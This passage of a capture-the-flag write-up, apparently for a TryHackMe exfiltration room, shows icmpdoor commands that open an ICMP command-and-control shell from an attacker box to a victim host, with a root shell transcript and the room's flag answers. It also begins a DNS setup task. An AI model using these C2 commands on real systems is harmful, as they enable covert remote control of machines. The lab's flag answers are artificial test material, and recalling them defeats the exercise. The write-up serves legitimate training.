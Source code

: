 Answer : data

### Follow the technique discussed in this task to establish a C2 ICMP connection between JumpBox and ICMP-Host. Then execute the "getFlag" command. What is the flag?

Using the icmpdoor tool, we need to run a command on the victim and then a command on the attacker (this tool needs to be executed on both side) :

VICTIM :
```console
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
```
{: .nolineno }

ATTACKER :
```console
thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
[sudo] password for thm: 
shell: hostname
hostname
shell: icmp-host

shell: id
id
shell: uid=0(root) gid=0(root) groups=0(root)

shell: getFlag
getFlag
shell: [+] Check the flag: /tmp/flag.txt

shell: cat /tmp/flag.txt
cat /tmp/flag.txt
shell: THM{g0t-1cmp-p4k3t!}
```
{: .nolineno }


Answer : THM{g0t-1cmp-p4k3t!}

## TASK 8 : DNS Configurations
###  Once the DNS configuration works fine, resolve the flag.thm.com  domain name. What is the IP address? 
Set up the DNS :

![DNS A Record](/images/thm/dataxexfilt/dataxexfilt_6.png)
_DNS A Record_
